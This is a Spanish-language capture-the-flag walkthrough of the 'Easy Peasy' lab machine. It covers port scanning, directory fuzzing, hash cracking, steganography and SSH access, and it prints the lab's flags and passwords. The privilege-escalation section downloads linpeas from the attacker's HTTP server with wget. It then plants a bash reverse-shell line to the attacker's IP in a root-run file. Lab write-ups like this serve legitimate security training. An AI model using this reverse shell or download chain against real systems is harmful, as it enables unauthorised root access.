 # Easy Peasy

## Nmap

![alt text](image.png)

## Puertos abiertos

![alt text](image-10.png)

## Web

Puerto 80

![alt text](image-1.png)

Robots.txt

![alt text](image-2.png)

Versión nginx

![alt text](image-3.png)

Puerto 65524

![alt text](image-11.png)

## Fuzzing

    gobuster dir -u http://10.10.44.195/ -w Desktop/common.txt -x php 

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

![alt text](image-8.png)

![alt text](image-9.png)

    flag{f1rs7_fl4g}

![alt text](image-12.png)

![alt text](image-13.png)

Para crackear el hash lo introducimos en la siguiente web [md5hashing](https://md5hashing.net/hash/md5)

    flag{1m_s3c0nd_fl4g}

![alt text](image-14.png)

Encontramos la tercera flag en la mísma web de apache

![alt text](image-15.png)

Encontramos un codigo cifrado en base62, hace referencia a la ruta escondida ``/n0th1ng3ls3m4tt3r``

![alt text](image-16.png)

![alt text](image-17.png)

En el código fuente encontramos un hash

![alt text](image-18.png)

Usamos ``hash-identifier``, para ver posibles cifrados

![alt text](image-19.png)

Use los posibles cifrados pero no lo encontré, por lo que use john y el diccionario de contraseñas ``easypeasy.txt``

![alt text](image-20.png)

![alt text](image-21.png)

    mypasswordforthatjob

Descargamos la imagen de la web, comprobamos si tiene algun texto escondido

    steghide extract -sf binarycodepixabay.jpg 

Nos pide una contraseña, usamos la que acabamos de conseguir

![alt text](image-22.png)

![alt text](image-23.png)

	iconvertedmypasswordtobinary

## SSH

    ssh -p 6498 boring@10.10.254.187

![alt text](image-24.png)

Encontramos un ``user.txt`` con la flag ¿rotada?

![alt text](image-26.png)

Usamos [rot13](https://rot13.com/)

    flag{n0wits33msn0rm4l}

![alt text](image-25.png)

## Escalada de privilegios

Iniciamos un servidor para subir ``linpeas``

    python3 -m http.server 1234

![alt text](image-27.png)

Lo descargamos en la máquina atacada

    wget 10.8.67.209:1234/linpeas.sh

![alt text](image-28.png)

Lo ejecutamos

    chmod +x linpeas.sh

    ./linpeas.sh

![alt text](image-29.png)

Creamos una shell en el archivo

    bash -i >& /dev/tcp/10.8.67.209/8080 0>&1

![alt text](image-30.png)

Ponemos el puerto en escucha, ya tendremos acceso ``root``

![alt text](image-31.png)

Buscamos ``root.txt``

![alt text](image-32.png)